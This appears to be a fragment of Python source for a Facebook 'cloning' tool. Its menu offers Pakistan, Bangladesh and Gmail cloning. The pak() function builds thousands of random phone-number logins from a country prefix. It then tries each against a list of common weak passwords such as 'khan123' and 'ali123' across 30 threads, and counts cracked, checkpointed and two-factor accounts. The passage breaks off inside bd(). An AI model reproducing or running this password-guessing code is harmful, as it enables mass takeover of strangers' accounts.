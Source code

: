 			l1()
			xd=input(' Choose an option: ')
			if xd in ['1','01']:
				my_main()
			elif xd in ['2','02']:
				pass
			#elif xd in ['3','03']:
				#pass
			elif xd in ['3','03']:
				clear()
				print(' [1] Pakistan cloning\n [2] Bangladesh cloning\n [3] Gmail cloning\n [0] Back menu')
				l1()
				x=input(' [+] Choose: ')
				if x in ['1','01']:
					pak()
				elif x in ['2','02']:
					bd()
				elif x in ['3','03']:
					gmail()
				else:
					menu()
			elif xd in ['5','05']:
				os.system(f'xdg-open https://www.facebook.com/mrlegendaman01?mibextid=ZbWKwL');menu()
			elif xd in ['0','00']:
				exit(' [•] If You Enjoy This Tool Share Your Opinion')
			else:
				exit(' Option not found in menu...')
def pak():
                user=[]
                clear()
                print('\033[1;31m Code example: 0306,0315,0335,0345')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
                        clear()
                        tl = str(len(user))
                        print(' [-] Cracking Limit   : \033[1;32m'+tl)
                        print(f'\033[1;37m [-] Choice code   :\033[1;32m '+code)
                        print(f'\033[1;37m [-] Be Patience Cracking Has Been Started\033[1;97m')
                        print("--------------------------------------------------")
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','khan1122','khan12345','khan123','khan123456','malik123','ali123','alikhan123']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')             
                print(' The process has completed')
                print(' Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                l1()
                input(' Press enter to back ')
   #             os.system('python AKING.py')
def bd():
                user=[]
                clear()
                print('\033[1;31m Code example: 016,017,018,019')
                code = input('\033[1;37m put code: ')